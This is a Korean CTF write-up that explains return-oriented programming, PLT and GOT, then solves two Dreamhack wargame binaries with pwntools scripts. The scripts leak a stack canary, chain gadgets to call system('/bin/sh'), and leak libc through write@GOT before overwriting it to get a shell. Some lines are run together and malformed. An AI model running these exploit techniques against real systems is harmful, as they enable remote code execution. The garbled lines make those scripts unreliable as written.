









## ROP란?
`Return Oriented Programming`의 약자로 쉘 인젝션 및 실행을 방지하기 위해<br>
만들어진 `NX,ASLR`을 우회하기 위해 만들어진 기법으로,<br>
코드 세그먼트 안에 있는 `코드 조각들을`조합해<br>
원하는 것을 수행하는 기법을 말한다!

기본적으로 그러한 코드들을 `가젯`이라고 부르며,<br>
`ROPgadget`명령어를 통해 가젯을 찾을수 있다!

아래는 ROPgadget 명령어 문법이다!
```sh 
ROPgadget --binary=경로
```

추가로 가젯을 찾기 어렵게 하기위해 `코드 세그먼트를 랜덤화 하는 기법`인<br>
`PIE`가 존재하게된다!

## GOT, PLT 테이블이란?
기본적으로 라이브러리 함수를 찾아가기 위한 `섹션`들은<br>
총 `GOT, PLT`세가지가 존재한다!<br>
`[컴파일할때 바이너리에서 호출된 함수에 관한 PLT,GOT만 생성된다!]`

### PLT란?
`PLT`란 라이브러리에 있는 함수를 호출했을때<br>
라이브러리 함수로 점프 하기 위해 `만들어둔 코드`이다!

기본적으로 섹션에 저장되어있다가,
메모리로 올라가면 `코드 세그먼트`로 이동되며,<br>

대부분의 함수를 호출할때<br>
`Call [PLT 주소]를 통해`점프하게된다!<br>
이후 PLT코드 안에는 `Got에 있는 주소를 가져와 점프하는 어셈블리어`가<br>
적혀있는거시다!

### GOT이란?
`Got`이란 현재 코드 세그먼트에서 호출한<br>
`라이브러리 함수의 메모리 주소를`저장해놓는 곳으로,

기본적으로 섹션에 저장되어있다가,<br>
메모리로 올라가면 `데이터 세그먼트`로 이동되며,<br>
`대부분 PLT가 호출될때`참조하기 위해 사용되는<br>
`일종의 주소 리스트`로 사용된다!<br>
(또한 Got을 덮는 공격을 막기 위해 RERLO 라는 방어 기법이 존재하게된다!)

## 문제풀이 1
이제 실전 문제를 풀어보자!<br>
문제는 드림핵의 [Return to Library](https://dreamhack.io/wargame/challenges/353)를 사용했으니 참고 바란다!

### 바이너리 분석
기본적으로 `PLT,GOT`은<br>
`코드섹션에서 호출된 라이브러리 함수`에 관련해서만 생성된다!

예를들면 코드섹션에 `System함수를 호출하는부분이 없다면`<br>
PLT,GOT섹션에 `System Got, System Plt가 생성되지 않는다!`

반대로 System함수를 `호출하는 부분이 있다면`<br>
PLT,GOT섹션에 `System Got, System Plt가 생성되는거시다!`

이제 코드를 보게되면
```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```
`System함수`를 호출하는 부분이 존재하기 때문에<br>
`System Got, System Plt`가 `데이터,코드세그먼트`에 적재될것이라는걸 예측할수 있다!

또한 `버퍼 크기는 0x30`이지만, `100바이트`를 입력함으로써<br>
`스택 버퍼 오버플로우`가 일어나는걸 볼수 있었다!

또한 보안 기법을 확인해보면,

`nx가 적용`되어 있는걸 볼수 있다!<br>
이를 통해 쉘코드 `인젝션이 불가능하다는걸 알수 있으며`,<br>
`스택카나리가 존재`해,<br>
스택카나리를 `유출하고 사용하는 과정이 필요`하다는걸 확인 할 수 있었다!

또한 코드에 `System함수와 /bin/sh라는 문자열이 존재`하니 <br>
`ROP`를 통해 `/bin/sh를 인자로 설정`하고,<br>
`System PLT를 호출`하는 시나리오를 짜볼수 있었다!

### 페이로드 작성 (카나리 유출)
일단 `카나리를`유출하기전 `buf`가 `SFP로부터`<br>
얼마나 떨어져있는지 `gdb`로 확인해보면

총 `0x40`바이트 떨어져 있는걸 볼 수 있다!<br>
기본적으로 카나리는 `rbp+8`에 있기 때문에

`0x40 - 0x8  = 0x38`

`0x38에 카나리가 존재`하는걸 알 수 있었다!<br>
기본적으로 카나리를 유출하기 위해선,<br>
`널바이트를 덮어 printf가 카나리까지 출력되게 만들어야`되기에,<br>
`0x39`까지 패딩으로 덮으면 `카나리를 유출할수 있다!`

이제 페이로드를 짜보면?
```python
from pwn import *
e = ELF("./rtl")
p = remote("host8.dreamhack.games", 13087)
context.log_level = "debug"

payload1 = b"A" * 0x39
p.sendafter(b"Buf: ",payload1)
p.recvuntil(payload1)
canary = u64(b"\x00"+ p.recvn(7))
```
이렇게 짜볼수 있다!

### 페이로드 작성 (쉘 획득)<br>
이제 `ROP`를 통해 `“/bin/bash”`<br>
문자열 주소를 인자값에 넣고 system 함수를<br>
실행하는것으로 페이로드를 짜볼수 있다!

일단 `plt주소`와 `“/bin/sh”주소`를 알아내야 되기 때문에,<br>
`gdb`를 켜서 확인해보면

`시스템 plt`의 주소는 `0x4005d0`,<br>
`/bin/sh`의 주소는 `0x400874`인걸 알 수 있었다!

이제 인자를 넣는 ROP 가젯을 찾아보면,

`0x400853`주소에 ROP 가젯이 있는걸 알 수 있다!

이제 이를 이용해 코드를 짜보면?
```python
from pwn import *
e = ELF("./rtl")
p = remote("host8.dreamhack.games", 13087)
context.log_level = "debug"

payload1 = b"A" * 0x39p.sendafter
(b"Buf: ",payload1)p.recvuntil(payload1)
canary = u64(b"\x00"+ p.recvn(7))

payload2 = b"A" * 0x38
payload2 += p64(canary)
payload2 += b"B" * 8 
payload2 += p64(0x400853) 
payload2 += p64(0x400874)
payload2 += p64(e.plt['system']) 
p.sendafter(b"Buf: ",payload2)
p.interactive() 
```

슬프게도 익스플로잇이 실패하는걸 알 수 있었다!

여기서,`System 함수는`실행될때
`스택의 정렬이 맞춰져야만`잘 실행된다.
즉, 스택의 정렬이 깨졌을 가능성을 생각해
`ret 가젯을 찾아보면?`

놀랍게도 가젯이 존재하는걸 알 수 있다!

그럼 이제 이 가젯을 중간에 껴넣어서
익스플로잇 해보면?
```python
from pwn import *
e = ELF("./rtl")
p = remote("host8.dreamhack.games", 13087)
context.log_level = "debug"

payload1 = b"A" * 0x39
p.sendafter(b"Buf: ",payload1)
p.recvuntil(payload1)
canary = u64(b"\x00"+ p.recvn(7))

payload2 = b"A" * 0x38
payload2 += p64(canary)
payload2 += b"B" * 8 
payload2 += p64(0x400596) 
payload2 += p64(0x400853) 
payload2 += p64(0x400874)
payload2 += p64(e.plt['system']) 
p.sendafter(b"Buf: ",payload2)
p.interactive() 
```


익스플로잇이 잘되는걸 알 수 있었다!

## 문제풀이 2
이제 실전 문제를 풀어보자!<br>
문제는 드림핵의 [ROP](https://dreamhack.io/wargame/challenges/354)를 사용했으니 참고 바란다!

### 바이너리 분석
기본적으로 `GOT`을 원하는 주소로 덮으면<br>
`특정 함수를 호출할때 특정 함수`가 아닌<br>
`다른 명령어 혹은 함수를 실행`할 수 있다!

예를들어 라이브러리 `Read함수의 Got을 System함수로 바꾼후`, <br>
Call [Read Plt주소]를 치게되면<br>
`Read Plt는 Read Got을 참조`하기 때문에<br>
`결국 시스템 함수가 참조되어 System함수가 실행`되게 되는거시다!

이제 코드를 보게 되면,
```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);

  return 0;
}
```
`buf의`크기는 `0x30`인데,<br>
`100바이트`를 총 2번 입력받는걸 볼 수 있다!

또한 `Write함수, Read함수`를 호출하는 부분이 존재하기 때문에,<br>
`Write Got, Write Plt, Read Got, Read Plt`가<br>
`데이터,코드세그먼트`에 적재될것이라는걸 예측할수 있다!

또한 `버퍼 크기는 0x30`이지만,<br>
`100바이트`를 입력함으로써 `스택 버퍼 오버플로우`가<br>
일어나는걸 볼 수 있다!

이제 보안 기법을 확인해보면?

`nx가 적용`되어 있는걸 볼수 있다!<br>
이를 통해 쉘코드 `인젝션이 불가능하다는걸 알 수 있으며,`,<br>
`스택카나리가 존재`해,<br>
스택카나리를 `유출하고 사용하는 과정이 필요`하다는걸 알 수 있다!

또한 `System`함수를 사용하지 않고,<br>
`Read, Write`만 사용하는 코드이기 때문에,

`Write Plt`를 통해 `Read Got(Read의 Libc주소)`<br>
혹은 `Write Got(Write의 Libc주소)`를 읽고, <br>
`Read Libc 주소의 오프셋`또는<br>
`Write Libc 주소의 오프셋`을 뺴서 <br>
`Libc Base`를 구한후,<br>
거기에 `System 오프셋`을 더해<br>
`System 함수 주소`를 구하고<br>
`ROP`를 통해 인자를 설정한 후<br>
구한 `System 함수를 실행`함으로써 쉘을 획득하는<br>
시나리오를 짜볼 수 있다!

### 페이로드 작성 (카나리 유출)<br>
일단 카나리를 유출하기전 `buf`가 `SFP`로부터<br>
얼마나 떨어져있는지 `gdb로`확인해보면<br>
<br>
총 `0x40`바이트 떨어져 있는걸 볼 수 있다!<br>
기본적으로 카나리는 `rbp+8`에 있기 때문에

`0x40 - 0x8  = 0x38`

`0x38에 카나리가 존재`하는걸 알 수 있었다!<br>
기본적으로 카나리를 유출하기 위해선,<br>
`널바이트를 덮어 printf가 카나리까지 출력되게 만들어야`되기에,<br>
`0x39`까지 패딩으로 덮으면 `카나리를 유출할수 있다!`

이제 페이로드를 짜보면?
```python
from pwn import *
e = ELF("./rop")
p = remote("host8.dreamhack.games", 13087)
context.log_level = "debug"

payload1 = b"A" * 0x39
p.sendafter(b"Buf: ",payload1)
p.recvuntil(payload1)
canary = u64(b"\x00"+ p.recvn(7))
```
이렇게 짜볼수 있다!

### 페이로드 작성 (libc 릭)<br>
이제 Libc Base를 구하기위해 `Write Plt`를 통해<br>
`Write Got안에 주소(Write Libc주소)`를 유출하고,

유출한 `Write Got안에 주소(Write Libc주소)`에 <br>
`Write Libc ↔ Libc Base 오프셋`을 빼서<br>
`Libc Base를 획득`한후,<br>
`Libc System ↔ Libc Base`오프셋을 더함으로써<br>
`System 함수의 주소`를 구할 수 있을거시다!

일단 Write의 인자를 넘기 위해<br>
`ROPgadget을`찾아보면?

`rdi 인자`를 넘기는 주소는 `0x400853`,<br>
`rsi 인자`는 넘기는 주소는 `0x400851`<br>
`rdx인자`를 넘기는 가젯은 존재하지 않는걸 볼 수 있다!

하지만 기본적으로 `rdx인자`,<br>
즉 `3번째 인자는`크기를 지정하는 인자로<br>
`왠만해선 6바이트 이상이 들어있을 확율이 높기 때문에`<br>
일단 `6바이트 이상`이라고 가정하고 <br>
인자를 설정하지 않고 페이로드를 작성해볼 수 있다!

이제 페이로드를 짜보면?
```python
from pwn import *

e = ELF("./rop")
p = remote("host8.dreamhack.games", 20165)
libc = ELF("./libc.so.6")
context.log_level = "debug"

payload1 = b"A" * 0x39
p.sendafter(b"Buf: ",payload1)
p.recvuntil(payload1)
canary = u64(b"\x00"+ p.recvn(7))

payload2 = b"A" *0x38
payload2 += p64(canary)
payload2 += b"B" *8

payload2 += p64(0x400853) + p64(1)
payload2 += p64(0x400851) + p64(e.got["write"]) + p64(0)
payload2 += p64(e.plt["write"])

p.sendafter(b"Buf: ",payload2)
writelibc = u64(p.recvn(6)+ b"\x00\x00")
libcbase = writelibc - libc.symbols["write"]
systemlibc = libcbase + libc.symbols["system"]
print(hex(libcbase))
print(hex(writelibc))
print(hex(systemlibc))

p.interactive()
```
이렇게 짜볼 수 있을거시다!

### 페이로드 작성 (쉘 획득)<br>
위에서 `System 함수의 절대 주소`를 얻었지만,<br>
주소를 계산하는 시점은 이미 페이로드를 전송한 시점이기 때문에<br>
이 주소를 사용할수 없다!<br>
그래서 `Read Plt`를 통해 `Write Got`에 입력을 받게한 후,<br>
`Write Got + 8`을 인자로 넣고<br>
`Write Plt`을 실행하게 페이로드를 짬으로써 <br>
이를 해결할수 있다!

또한 입력을 받을땐 `(System 함수) + (”/bin/sh”)`를 넣음으로써<br>
`Write Got`을 `System함수로`덮어<br>
`Write Plt`를 실행할때 `System 함수`가 실행되게 하고,<br>
인자에 `“/bin/sh”`가 들어가도록 코드를 짤수 있다!

이제 페이로드를 짜보면?
```python
from pwn import *
e = ELF("./rop")
p = remote("host8.dreamhack.games", 20165)
libc = ELF("./libc.so.6")
context.log_level = "debug"

payload1 = b"A" * 0x39
p.sendafter(b"Buf: ",payload1)
p.recvuntil(payload1)
canary = u64(b"\x00"+ p.recvn(7))

payload2 = b"A" *0x38
payload2 += p64(canary)
payload2 += b"B" *8

payload2 += p64(0x400853) + p64(1)
payload2 += p64(0x400851) + p64(e.got["write"]) + p64(0)
payload2 += p64(e.plt["write"])

payload2 += p64(0x400853) + p64(0)
payload2 += p64(0x400851) + p64(e.got["write"]) + p64(0)
payload2 += p64(e.plt["read"])

payload2 += p64(0x400853) + p64(e.got["write"]+8)
payload2 += p64(0x400596)payload2 += p64(e.plt["write"])

p.sendafter(b"Buf: ",payload2)
writelibc = u64(p.recvn(6)+ b"\x00\x00")
libcbase = writelibc - libc.symbols["write"]
systemlibc = libcbase + libc.symbols["system"]

p.send(p64(systemlibc) + b"/bin/sh\x00")print("hi")
p.interactive()
```

정말 잘되는걸 볼 수 있다!

끗이다!